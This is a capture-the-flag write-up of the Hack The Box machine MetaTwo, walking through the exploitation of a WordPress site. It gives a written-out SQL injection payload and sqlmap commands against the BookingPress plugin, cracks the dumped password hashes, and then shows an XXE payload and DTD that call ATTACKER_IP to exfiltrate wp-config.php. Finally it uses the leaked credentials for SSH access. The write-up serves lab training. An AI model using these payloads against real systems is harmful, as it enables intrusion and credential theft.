 # MetaTwo

A writeup for the machine [MetaTwo](https://app.hackthebox.com/machines/MetaTwo) on Hack The Box.

<Image src={require("./banner.webp").default} height="500" />

## Footprinting

### Nmap scan

By scanning with nmap we can find three open ports. In particular, on port 80 there is a website available based on Wordpress at the address `metapress.htb`

<Image src={require("./nmap.webp").default} />

### Web server

By looking to the source code of the index it is possible to see that the website uses Wordpress.

<Image src={require("./source.webp").default} />

## User flag

### Exploiting Wordpress

We can also notice that a plugin called bookingpress-appointment-booking is used. with version 1.0.10. It is enough to search on Google for vulnerabilities to find a SQLi.

[https://wordpress.org/plugins/bookingpress-appointment-booking/](https://wordpress.org/plugins/bookingpress-appointment-booking/)

[https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

The SQLi is:

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

Enumerate dbs

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --dbs
```

Enumerate users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch -D blog -T wp_users --dump
```

Get password of admin and manager users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --sql-query "SELECT user_pass FROM wp_users WHERE ID=1"
```

<Image src={require("./sqlmap.webp").default} />

Final hashes

```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. admin
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 manager
```

Using hashcat and the rockyou list is possible to find the password for manager: `partylikearockstar`.

<Image src={require("./manager.webp").default} />

Once inside we can try to exploit the permissions of the manager user.
We can use tool like Wappalyzer to find the version of Wordpress used by the website (5.6.2).

There is a vulnerability that exploits the upload of a new media element to the website. The vulnerability is described here:

[https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)

One file will be used for upload:

```xml title="payload.wav"
RIFFXXXXWAVEBBBBiXML<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://ATTACKER_IP:ATTACKER_PORT/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

Another will be server on the attacker machine:

```xml title="xxe.dtd"
<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:ATTACKER_PORT/?%data;'>">
```

Change ATTACKER_IP and ATTACKER_PORT with your values.

Remember to serve the file on your local pc:

```bash
python3 -m http.server PORT
```

In the `wp-config.php` we can find the credentials for the ftp server:

```php title="wp-config.php"
...
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
...
```

<Image src={require("./ftp.webp").default} />

In addition to the blog files, there is also a folder called `mailer` where we can find a file `send_email.php`.
Inside the file we can find the credentials for the mail server:

```php title="send_email.php"
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

### Accessing with SSH

We can use the credentials that we found to login via SSH.

```bash
ssh jnelson@TARGET_IP
```

Once inside the machine, we can find the user flag inside the home directory.

```bash
cat user.txt
```
